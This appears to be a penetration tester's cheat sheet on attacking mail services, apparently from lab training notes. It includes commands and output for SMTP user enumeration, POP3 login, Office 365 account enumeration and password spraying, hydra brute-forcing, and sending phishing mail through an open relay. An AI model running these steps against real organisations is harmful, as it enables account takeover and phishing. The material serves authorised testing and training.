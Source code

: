 # Enumeration
```bash
host -t MX microsoft.com

microsoft.com mail is handled by 10 microsoft-com.mail.protection.outlook.com.
```

```bash
dig mx plaintext.do | grep "MX" | grep -v ";"

plaintext.do.           7076    IN      MX      50 mx3.zoho.com.
plaintext.do.           7076    IN      MX      10 mx.zoho.com.
plaintext.do.           7076    IN      MX      20 mx2.zoho.com.
```

```bash
host -t A mail1.inlanefreight.htb.

mail1.inlanefreight.htb has address 10.129.14.128
```
## Ports
**Port** 	        **Service**
TCP/25 	    SMTP Unencrypted
TCP/143 	    IMAP4 Unencrypted
TCP/110 	    POP3 Unencrypted
TCP/465 	SMTP Encrypted
TCP/587 	SMTP Encrypted/STARTTLS
TCP/993 	IMAP4 Encrypted
TCP/995 	POP3 Encrypted
## Misconfigurations
### SMTP
```bash
# check username validity
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table

# show all users in list
EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb

# dunno what it is
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```
### POP3
```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio
-ERR

USER john
+OK

PASS 8Ns8j1b!23hs4921smHzwn
+OK Logged in.

LIST
+OK 1 messages:
1 1630
.
RETR 1
<MAIL CONTENT>
```
### Automation
https://github.com/pentestmonkey/smtp-user-enum
```bash
git clone https://github.com/pentestmonkey/smtp-user-enum&& cd smtp-user-enum
# -M VRFY, EXPN, RCPT
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
# Cloud enumeration
## Microsoft Office 365
https://github.com/0xZDH/o365spray
```bash
python3 o365spray.py --validate --domain msplaintext.xyz

python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
<SNIP>
[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'
```
# Password Attacks
```bash
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

# cloud password spraying
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
# Open relay
Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. 
```bash
# detect open relay
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
# connect and send mail
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```